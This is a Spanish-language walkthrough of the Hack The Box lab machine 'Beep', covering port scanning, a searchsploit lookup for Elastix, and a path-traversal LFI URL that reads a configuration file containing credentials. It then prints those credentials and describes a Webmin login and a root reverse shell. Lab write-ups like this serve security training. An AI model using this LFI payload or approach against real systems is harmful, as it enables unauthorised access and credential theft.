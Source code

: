 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/10/2017'
---
```


# Beep

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.7
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **22 (SSH - OpenSSH 4.3)**: Versión antigua, posible explotación y fuerza bruta.
* **25 (SMTP - Postfix)**: Puede filtrar usuarios o permitir envío sin autenticación (open relay).
* **80/443 (HTTP/HTTPS - Apache 2.2.3)**: Versión vulnerable, revisar exploits y probar SQLi, XSS, LFI.
* **110/995 (POP3/POP3s - Cyrus)**: Posible captura de credenciales en texto claro, probar autenticación.
* **111 (RPCBind)**: Puede permitir enumeración y ejecución remota de código.
* **143/993 (IMAP/IMAPs - Cyrus)**: Posible ataque de autenticación o exploits específicos.
* **3306 (MySQL - Acceso no autorizado)**: Intentar acceso con credenciales por defecto.
* **4445 (Servicio desconocido)**: Revisar banners y comportamiento con `nc`.
* **10000 (Webmin - MiniServ 1.570)**: **Vulnerable a RCE**, buscar exploits.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,443,110,995,143,993,3306,4445,10000 -v 10.10.10.7
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos credenciales por defecto pero no hay resultado. Vamos a ver si **Elastix** tiene alguna vulnerabilidad para explotar.

```bash
searchsploit elastix
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos una vulnerabilidad **LFI** por lo que la explotamos. Descargamos el archivo.

```bash
searchsploit -m php/webapps/37637.pl
```

Vemos el contenido.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos el exploit LFI que tiene por lo que es lo que hacemos a continuación.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al parecer aparecen unas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
admin:jEhdIekWmdjE
```

Nos intentamos loguear con esas credenciales en el servicio **Webmin**.&#x20;

> Nota: las credenciales son root como usuario y misma contraseña.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar una tarea como root y eso hacemos para una Reverse Shell.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>
